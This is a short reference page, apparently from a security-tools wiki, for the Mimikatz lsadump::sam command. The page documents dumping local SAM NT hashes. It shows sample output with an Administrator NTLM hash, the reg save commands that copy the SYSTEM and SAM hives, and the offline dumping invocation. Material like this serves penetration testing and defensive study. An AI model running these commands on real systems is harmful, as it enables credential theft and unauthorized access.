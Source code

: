# sam

`lsadump::sam` dumps the local Security Account Manager (SAM) NT hashes (cf. [SAM secrets dump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)). It can operate directly on the target system, or offline with registry hives backups (for `SAM` and `SYSTEM`). It has the following command line arguments:

* `/sam`: the offline backup of the SAM hive
* `/system`: the offline backup of the SYSTEM hive

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

### Dumping the target

```
mimikatz # lsadump::sam
Domain : DC
SysKey : 7852ea75b3b8c4093fbda3f618a045bb
Local SID : S-1-5-21-97532702-2134717100-614679475

SAMKey : 7a87c9ff42815d7d1cead9fe84db22ba

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 4d01f91984530f183381bdf5f0605f63

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

### Offline dumping

At first a backup of`SYSTEM` and `SAM` hives must be obtained:

```powershell
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

A Volume Shadow Copy / BootCD can also be used to backup these files:

```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```

Then the saved backups of `SYSTEM` and `SAM` hives can also be used offline:

```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```
